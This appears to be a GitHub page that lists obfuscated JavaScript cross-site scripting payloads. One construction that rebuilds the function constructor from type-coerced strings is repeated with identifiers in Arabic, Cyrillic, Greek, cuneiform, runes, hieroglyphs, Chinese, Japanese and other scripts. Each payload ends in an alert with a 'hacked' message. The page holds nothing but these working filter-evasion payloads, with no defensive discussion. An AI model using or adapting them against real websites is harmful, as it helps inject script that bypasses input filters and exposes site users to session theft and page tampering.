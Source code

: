 XSS Payload Written In Arabic
```
ا='',ب=!ا+ا,ت=!ب+ا,ث=ا+{},ج=ب[ا++],ح=ب[خ=ا],د=++خ+ا,ذ=ث[خ+د],ب[ذ+=ث[ا]+(ب.ت+ث)[ا]+ت[د]+ج+ح+ب[خ]+ذ+ج+ث[ا]+ح][ذ](ت[ا]+ت[خ]+ب[د]+ح+ج+"(1)")()
```
XSS Payload Written in Russian 🇷🇺
```
а='',б=!а+а,в=!б+а,г=а+{},д=б[а++],е=б[ж=а],з=++ж+а,и=г[ж+з],б[и+=г[а]+(б.в+г)[а]+в[з]+д+е+б[ж]+и+д+г[а]+е][и](в[а]+в[ж]+б[з]+е+д+"('взломано')")()
```
XSS Payload Written In Ancient Greek Language

```
α='',β=!α+α,γ=!β+α,δ=α+{},ε=β[α++],ζ=β[ι=α],η=++ι+α,θ=δ[ι+η],β[θ+=δ[α]+(β.γ+δ)[α]+γ[η]+ε+ζ+β[ι]+θ+ε+δ[α]+ζ][θ](γ[α]+γ[ι]+β[η]+ζ+ε+"('Ĥαcεκd βγ γαssιη')")()
```
XSS Payload Written in Ancient Indus Language 📜
```
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

XSS Payload Written in Inuktitut language 📜
```
ᐊ='',ᐃ=!ᐊ+ᐊ,ᐅ=!ᐃ+ᐊ,ᐱ=ᐊ+{},ᑎ=ᐃ[ᐊ++],ᓇ=ᐃ[ᓕ=ᐊ],ᓯ=++ᓕ+ᐊ,ᓂ=ᐱ[ᓕ+ᓯ],ᐃ[ᓂ+=ᐱ[ᐊ]+(ᐃ.ᐅ+ᐱ)[ᐊ]+ᐅ[ᓯ]+ᑎ+ᓇ+ᐃ[ᓕ]+ᓂ+ᑎ+ᐱ[ᐊ]+ᓇ][ᓂ](ᐅ[ᐊ]+ᐅ[ᓕ]+ᐃ[ᓯ]+ᓇ+ᑎ+"('ᐊᐃᓐᓇᓂᐅᑦ ᐱᔭᓯᓕᖅ')")()
```
XSS Payload Written In Glagolitic 📜
```
Ⰰ='',Ⰱ=!Ⰰ+Ⰰ,Ⰲ=!Ⰱ+Ⰰ,Ⰳ=Ⰰ+{},Ⰴ=Ⰱ[Ⰰ++],Ⰵ=Ⰱ[Ⰶ=Ⰰ],Ⰷ=++Ⰶ+Ⰰ,Ⰸ=Ⰳ[Ⰶ+Ⰷ],Ⰱ[Ⰸ+=Ⰳ[Ⰰ]+(Ⰱ.Ⰲ+Ⰳ)[Ⰰ]+Ⰲ[Ⰷ]+Ⰴ+Ⰵ+Ⰱ[Ⰶ]+Ⰸ+Ⰴ+Ⰳ[Ⰰ]+Ⰵ][Ⰸ](Ⰲ[Ⰰ]+Ⰲ[Ⰶ]+Ⰱ[Ⰷ]+Ⰵ+Ⰴ+"('ⰀⰁⰂⰃⰄⰅⰆⰇⰈ')")()
```
XSS Payload Written In Linear B language 📜
```
𐀀='',𐀁=!𐀀+𐀀,𐀂=!𐀁+𐀀,𐀃=𐀀+{},𐀄=𐀁[𐀀++],𐀅=𐀁[𐀆=𐀀],𐀇=++𐀆+𐀀,𐀈=𐀃[𐀆+𐀇],𐀁[𐀈+=𐀃[𐀀]+(𐀁.𐀂+𐀃)[𐀀]+𐀂[𐀇]+𐀄+𐀅+𐀁[𐀆]+𐀈+𐀄+𐀃[𐀀]+𐀅][𐀈](𐀂[𐀀]+𐀂[𐀆]+𐀁[𐀇]+𐀅+𐀄+"('𐀀𐀁𐀂𐀃𐀄 𐀅𐀆𐀇𐀈')")()
```
XSS Payload Written In Runic 📜
```
ᚠ='',ᚢ=!ᚠ+ᚠ,ᚦ=!ᚢ+ᚠ,ᚨ=ᚠ+{},ᚱ=ᚢ[ᚠ++],ᚲ=ᚢ[ᚷ=ᚠ],ᚹ=++ᚷ+ᚠ,ᚺ=ᚨ[ᚷ+ᚹ],ᚢ[ᚺ+=ᚨ[ᚠ]+(ᚢ.ᚦ+ᚨ)[ᚠ]+ᚦ[ᚹ]+ᚱ+ᚲ+ᚢ[ᚷ]+ᚺ+ᚱ+ᚨ[ᚠ]+ᚲ][ᚺ](ᚦ[ᚠ]+ᚦ[ᚷ]+ᚢ[ᚹ]+ᚲ+ᚱ+"('ᛞᚾᛋᚨᛏᛡᚠᛚᛖᚺᛋᛉᛏᚱ')")()
```
XSS Payload Written In Ancient YI language 📜
```
ꆈ='',ꌠ=!ꆈ+ꆈ,ꁱ=!ꌠ+ꆈ,ꁯ=ꆈ+{},ꉬ=ꌠ[ꆈ++],ꃅ=ꌠ[ꋍ=ꆈ],ꇁ=++ꋍ+ꆈ,ꊰ=ꁯ[ꋍ+ꇁ],ꌠ[ꊰ+=ꁯ[ꆈ]+(ꌠ.ꁱ+ꁯ)[ꆈ]+ꁱ[ꇁ]+ꉬ+ꃅ+ꌠ[ꋍ]+ꊰ+ꉬ+ꁯ[ꆈ]+ꃅ][ꊰ](ꁱ[ꆈ]+ꁱ[ꋍ]+ꌠ[ꇁ]+ꃅ+ꉬ+"('ꆈꌠꁱꁯꉬꃅꋍꇁꊰꌠꁱꉬꇁꊰꆈꋍꁯꃅꆈꌠꁱꁯꉬꃅꋍꇁꊰ')")()
```
XSS Payload Written In Hieroglyphics 🇪🇬

```
𓀀='',𓁹=!𓀀+𓀀,𓆣=!𓁹+𓀀,𓉐=𓀀+{},𓂀=𓁹[𓀀++],𓏏=𓁹[𓀂=𓀀],𓎛=++𓀂+𓀀,𓅓=𓉐[𓀂+𓎛],𓁹[𓅓+=𓉐[𓀀]+(𓁹.𓆣+𓉐)[𓀀]+𓆣[𓎛]+𓂀+𓏏+𓁹[𓀂]+𓅓+𓂀+𓉐[𓀀]+𓏏][𓅓](𓆣[𓀀]+𓆣[𓀂]+𓁹[𓎛]+𓏏+𓂀+"('𓀀𓁹𓆣𓉐𓂀𓏏𓎛𓅓')")()
```

XSS Payload Written In Japanese 🇯🇵
```
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],く=++き+あ,け=え[き+く],い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```
XSS Payload Written In Chinese 🇨🇳 
```
甲='',乙=!甲+甲,丙=!乙+甲,丁=甲+{},戊=乙[甲++],己=乙[庚=甲],辛=++庚+甲,壬=丁[庚+辛],乙[壬+=丁[甲]+(乙.丙+丁)[甲]+丙[辛]+戊+己+乙[庚]+壬+戊+丁[甲]+己][壬](丙[甲]+丙[庚]+乙[辛]+己+戊+"('被攻擊了')")()
```
Miscellaneous:
```
𝒜='',ℬ=!𝒜+𝒜,𝒞=!ℬ+𝒜,𝒟=𝒜+{},ℰ=ℬ[𝒜++],ℱ=ℬ[𝒢=𝒜],ℋ=++𝒢+𝒜,ℐ=𝒟[𝒢+ℋ],ℬ[ℐ+=𝒟[𝒜]+(ℬ.𝒞+𝒟)[𝒜]+𝒞[ℋ]+ℰ+ℱ+ℬ[𝒢]+ℐ+ℰ+𝒟[𝒜]+ℱ][ℐ](𝒞[𝒜]+𝒞[𝒢]+ℬ[ℋ]+ℱ+ℰ+"('𝓱𝓪𝓬𝓴𝓮𝓭 𝓫𝔂 𝔂𝓪𝓼𝓼𝓲𝓷')")()
```
```
Ａ='',Ｂ=!Ａ+Ａ,Ｃ=!Ｂ+Ａ,Ｄ=Ａ+{},Ｅ=Ｂ[Ａ++],Ｆ=Ｂ[Ｇ=Ａ],Ｈ=++Ｇ+Ａ,Ｉ=Ｄ[Ｇ+Ｈ],
Ｂ[Ｉ+=Ｄ[Ａ]+(Ｂ.Ｃ+Ｄ)[Ａ]+Ｃ[Ｈ]+Ｅ+Ｆ+Ｂ[Ｇ]+Ｉ+Ｅ+Ｄ[Ａ]+Ｆ][Ｉ](Ｃ[Ａ]+Ｃ[Ｇ]+Ｂ[Ｈ]+Ｆ+Ｅ+"('H̶̦͇͓͔͙͔̜͕̬̗̦̜̹͎̝̟̥̊̆͊̈̿͆͐a̵̝̤̓̆̅̒̄͂͌̃͌̕͝͝č̷̡̡̡̛̳̱̠̫͓͕͕͔́͒͑̉͑̓̓͘͘͜͜͝k̷̢͈͖̫̐̓̊̊͊͑̒̊̄̎̽̕͘͘͝ę̴͔̻̟͎̟͖̪̐̆̉̓̑̐̇̋̇̍́̉͠ͅd̴͚̱̣͓̠̹̻̺͈̮̣̏̀̈́̒͆͐͋́ ̶̦̥̰̻̬̩̦̒͋͂̀͠B̴̛̤̹̤͍̹̺̖̬̺̝̈́͂̾͌̈́̓̋̍̃̀́̔͘͜͜͜͠ͅỳ̷̬͖͉͕͙̗͉̜̼̣̤̳̣̺͖͇̈́̾̈̀͂̑͋͌̀͠͠ ̵͈̏̑͛̈́̆̇̓̔̂̔̈́͘Y̷̧̼͉͙͙͙͙̳̳̰̮̯̝̔̀̋͊͋̒̐͒́̿̔̈́̈́̊̕͘ä̶̛͖͉̗̠̩̰̻͕̳͍͎́̅̇͗͑̇̊̀͘͝ͅś̷͕̥̹̬̟̑̑͌̀̅̍̈́͋̓̍͘s̷̱̔̐͗̈́̍̏͝͝i̶̺̠̝͉̥̖̙̰͌͌̈͂̽͒̅͜͜͝ͅṅ̴̛̦̙͖̲̫̹͊͑͌̎̒̉̆')")()
```
